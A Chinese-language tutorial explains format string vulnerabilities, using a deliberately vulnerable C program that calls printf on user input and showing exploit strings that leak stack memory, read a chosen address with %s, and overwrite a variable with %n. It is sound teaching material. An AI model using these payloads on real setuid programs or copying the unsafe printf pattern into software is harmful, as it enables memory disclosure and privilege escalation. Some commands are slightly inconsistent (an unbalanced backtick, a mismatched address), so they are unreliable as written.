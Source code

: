 ## 什么是格式化字符串漏洞
   格式化字符串exploit是一类相对侥幸的exploit。同缓冲区溢出exploit一样，格式化字符串exploit 的最终目的是重写数据以控制特权程序的执行流程。
 
   格式化字符串漏洞是由像 printf(user_input) 这样的代码引起的，其中 user_input 是用户输入的数据，具有 Set-UID root 权限的这类程序在运行的时候，printf 语句将会变得非常危险，因为它可能会导致下面的结果：
* 使得程序崩溃
* 任意一块内存读取数据
* 修改任意一块内存里的数据

    printf 函数的格式化参数：

|参数|输出类型|
|----------|-------------------------------------------------|
|%d|十进制整数|
|%u|无符号整数|
|%x|十六进制整数|
|%s|字符串|
|%n|到目前为止，已写的字节个数|

## printf 函数参数在栈中的分布
以下面的代码为例：
```
printf("A is %d and is at %08x, B is %u and is at %08x.\n", A, &A, B, &B);
```
该printf函数参数在栈中的分布如下：

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_01.png?raw=true)


栈顶指针指向的是格式化字符串的内容，printf函数遍历该字符串，如果当前字符不是格式化参数的首字符（%），则复制输出该字符，如果遇到一个格式化参数，就采取相应的动作，并使用栈中与那个参数相对应的参量。

本文的测试代码如下：
```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(int argc, char*argv[])
{
    char text[1024];
     int test_val = -72;
    if (argc < 2)
    {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }
    char *s=getenv("PATH");
    printf("the address of PATH is %08x, and the address of s is %08x\n", s, &s);
    strcpy(text, argv[1]);
    printf("text is located on %08x\n", text);
    printf("the write way:\n");
    printf("%s\n", text);
    printf("the wrong way:\n");
    printf(text);
    printf("\n");
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
    exit(0);
}
```
## 访问任意内存的位置
输入下面的字符串作为参数
```
AAAA%08x.%08x.%08x.%08x......%08x%08x //64个%08x
```
结果如下：

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_02.jpg?raw=true)

当使用printf("%s", s) 输出该字符串得到正确结果。此时printf函数参数在栈中的分布如下（栈地址无实际意义，只是为了便于分析）：

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_03.png?raw=true)

当使用printf(s)输出该字符串时，栈顶的指针直接指向字符串参数，并以解析格式化字符串参数的方式解析该字符串

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_04.png?raw=true)

所以实际内存分布为：

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_05.png?raw=true)

由上图可知从栈顶只要通过%08x向下跳8次就可以读到我们输入的字符串

已知PATH的内容存放在0xbfffff38，现在通过printf漏洞读取它的值，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s
```
结果如下：
![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_06.jpg?raw=true)

## 直接参数存取
在上述的exploit中，每个格式化参数参量必须顺序递进，这需要几个格式化参数%x 来递进参数参量，直到达到格式化字符串的起始位置。此外，这种顺序特性需要7个字节的无用数据，以正确的将一个完整的地址写入任意存储单元。

直接参数存取允许通过使用美元符号\$直接存取参数。例如，用%N\$d 可以访问第N个参数，并且把它以十进制形式输出。
```
printf("7th:%7$d, 4th:%4$05d\n",10,20,30,40,50,60,70,80);
```
上述printf()调用的输出如下：
```
7th:70, 4th:00040
```
用直接参数访问格式化字符串，执行如下命令:
```
./fmt_vuln AAAA%8\$x
```
![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_08.jpg?raw=true)

以字符串格式读取指定内存的内容
```
./fmt_vuln `printf "\x23\xff\xff\xbf"%8\$s
```

![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_09.jpg?raw=true)

## 改写任意内存的位置
已知变量test_val的位置：0xbfffef0c，通过printf 改写它的位置，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%n
```
结果如下：
![](https://github.com/Rosanne-Luo/NetworkSecurity/blob/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_07.jpg?raw=true)
test_val的值由-72改为67，正是到目前为止所已写的字符数量。
